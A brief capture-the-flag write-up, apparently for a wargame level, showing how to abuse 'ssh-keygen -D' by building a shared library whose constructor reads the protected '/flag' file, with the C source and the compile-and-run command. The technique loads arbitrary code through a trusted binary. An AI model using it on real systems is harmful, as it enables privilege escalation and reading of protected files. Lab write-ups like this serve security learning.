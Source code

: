 ### Level 51 - ssh-keygen

First we need to create a `.c` file and then compile it to an `.so` shared library. We do that because we can exploit that challenge via `ssh-keygen -D`. From the `man` page of `ssh-keygen`:

>     -D pkcs11
>                  Download the public keys provided by the PKCS#11 shared library pkcs11.  When used in combination with -s, this option indicates that a CA key resides in a PKCS#11 token (see the CERTIFICATES section for details).
>     
>     It is possible to sign using a CA key stored in a PKCS#11 token by providing the token library using -D and identifying the CA key by providing its public half as an argument to -s:
>     
>            $ ssh-keygen -s ca_key.pub -D libpkcs11.so -I key_id user_key.pub

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void C_GetFunctionList() { sendfile(1, open("/flag", 0), 0, 4096); }
```

Now, we need to compile the program to `.so` and then perform the `ssh-keygen -D`.

```bash
$ gcc -shared -o w3t.so w3t.c && ssh-keygen -D ./w3t.so
```


